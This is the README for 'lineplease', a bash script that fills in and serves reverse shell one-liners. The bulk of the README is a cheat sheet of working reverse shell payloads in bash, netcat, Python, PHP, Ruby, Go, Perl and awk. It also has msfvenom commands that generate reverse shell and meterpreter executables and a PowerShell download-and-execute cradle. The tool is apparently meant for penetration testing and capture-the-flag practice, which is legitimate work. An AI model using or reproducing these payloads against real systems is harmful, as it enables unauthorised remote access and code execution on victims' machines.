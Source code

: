 
                      __   _____  ______
                     / /  /  _/ |/ / __/
                    / /___/ //    / _/  
         ___  __   /____/___/_/|_/___/  
        / _ \/ /  / __/ _ | / __/ __/   
       / ___/ /__/ _// __ |_\ \/ _/     
      /_/  /____/___/_/ |_/___/___/     

"You thought your secrets were safe...you..ehmm...line please!!"

# lineplease

Lineplease is a helper script (bash) designed to simplify the process of grabbing reverse shell oneliners from the web<br>
and changing them to fit whatever need.
<br>
Started out as a simple personal tool to help my own lazy self but grew into a somewhat comprehensive list of lines<br>
easily served up on the command line.<br>
Most if not all creds goes to [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) for the actual lines.<br>
<br>
Enjoy!
<br>
## installation
```git clone https://github.com/rub3rth/lineplease ```<br>
<br>
clipboard function requires xsel package<br>
```sudo apt-get install xsel```
# example usage
## for reverse shell line<br>
```./lineplease.sh [options] [interface] [port] ```<br><br>
example:<br>
```./lineplease.sh -b eth0 1337```<br>
<br>
ipv4-address on desired interface is inserted into line<br> 
for public ip specify interface as 'pub'<br><br>
when prompted:<br>
y to copy line to clipboard (requires xsel) or any other key to continue <br>
y to start netcat listener or any other key to exit<br>
## for msfvenom (requires msfvenom)<br>
```./lineplease.sh [options] [interface] [port] [name] ```<br><br>
example:<br>
```./lineplease.sh -m2 tun0 1337 rev```<br>
<br>
when prompted:<br> 	
y to create file or any other key to exit<br>
# demo
## options
``` 
-h 		display this page
example:	./lineplease.sh -h

OPTIONS		-----------------------------------

BASH
-b      	bash -i >& /dev/tcp/[ip]/[port] 0>&1
-be		0<&196;exec 196<>/dev/tcp/[ip]/[port]; sh <&196 >&196 2>&196
-bc     	bash -c 'bash -i >& /dev/tcp/[ip]/[port] 0>&1'

NETCAT
-n      	nc -e /bin/bash [ip] [port]
-ns		nc -e /bin/sh [ip] [port]
-nc		nc -c bash [ip] [port]

PYTHON
-py1		export RHOST="[ip]";export RPORT=[port];python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
-py2		python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip]",[port]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 						

PHP
-p1		php -r '$sock=fsockopen("[ip]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");'
-p2		php -r '$sock=fsockopen("[ip]",[port]);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
-p3		php -r '$sock=fsockopen("[ip]",[port]);`/bin/sh -i <&3 >&3 2>&3`;'
-p4		php -r '$sock=fsockopen("[ip]",[port]);system("/bin/sh -i <&3 >&3 2>&3");'
-p5		php -r '$sock=fsockopen("[ip]",[port]);passthru("/bin/sh -i <&3 >&3 2>&3");'
-p6		php -r '$sock=fsockopen("[ip]",[port]);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
-p7		php -r '$sock=fsockopen("[ip]",[port]);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

RUBY
-r		ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[ip]","[port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
-rw		ruby -rsocket -e 'c=TCPSocket.new("[ip]","[port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'	(windows only)

GOLANG
-g		echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","[ip]:[port]");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

PERL
-pe		perl -e 'use Socket;$i="[ip]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
-pe2		perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[ip]:[port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'			
-pw		perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[ip]:[port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'	(windows only)

AWK
-a		awk 'BEGIN {s = "/inet/tcp/0/[ip]/[port]"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

POWERSHELL
-ps1            too long and messy to print out here
-ps2            same goes for this one

MSFVENOM UNSTAGED
-m1 		msfvenom -p windows/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f exe > [name].exe
-m2		msfvenom -p linux/x86/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f elf > [name].elf
-m3     	msfvenom -p osx/x86/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f macho > [name].macho
-m4		msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ip] LPORT=[port] -f raw > [name].jsp
-m5		msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ip] LPORT=[port] -f war > [name].war
-m6		msfvenom -p cmd/unix/reverse_python LHOST=[ip] LPORT=[port] -f raw > [name].py
-m7		msfvenom -p cmd/unix/reverse_bash LHOST=[ip] LPORT=[port] -f raw > [name].sh
-m8		msfvenom -p cmd/unix/reverse_perl LHOST=[ip] LPORT=[port] -f raw > [name].pl

MSFVENOM STAGED
-m1s    	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f exe > [name].exe
-m2s    	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f elf > [name].elf
-mas    	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f asp > [name].asp
-mps		msfvenom -p php/meterpreter_reverse_tcp LHOST=[ip] LPORT=[port] -f raw > [name].php; cat [name].php | xsel --clipboard --input && echo '<?php ' | tr -d '\n' > [name].php && xsel --clipboard --output >> [name].php
                (requires xsel)

LAZY OPTIONS
-pu2		python -c 'import pty; pty.spawn("/bin/bash")'
-pu3 		python3 -c 'import pty; pty.spawn("/bin/bash")'

		loads up line for python shell upgrade

		usage:		./lineplease.sh -pu2
                when prompted:  y to copy to clipboard (requires xsel)/any other key to exit

-psd		powershell "IEX(New-Object Net.WebClient).downloadString('http://[ip]:[port]/[filename]')"

		loads up a powershell command to download the file linpeas.sh from ip address of eth0

		usage:		./lineplease.sh -psd [interface] [port] [filename]
		example:	./lineplease.sh -psd eth0 1337 linpeas.sh
		when prompted:	y to copy to clipboard (requires xsel)/any other key to continue
		when prompted:	y to start web server in current directory/any other key to exit 
```


